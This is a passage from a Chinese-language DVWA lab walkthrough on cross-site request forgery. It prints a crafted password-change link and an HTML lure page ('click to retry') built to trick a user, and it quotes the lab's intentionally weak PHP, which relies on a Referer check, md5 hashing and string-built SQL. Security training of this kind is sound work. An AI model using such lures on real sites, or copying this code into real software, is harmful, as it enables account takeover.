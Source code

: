 通过get得到三个参数change、password_new、password_conf，password_new和password_conf想同则修改，没有任何防护

构造链接

```
http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#
```

![image-20250510190548161.png](https://previewengine.zohopublic.com.cn/image/WD/w7e3c566f4d9bc90d43d997586c82e7fdc98e)

也可以制作页面，诱导用户点击

```html
<a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#"><img src="">点击重试</a>
```

## medium

看源码

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $current_user = dvwaCurrentUser();
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```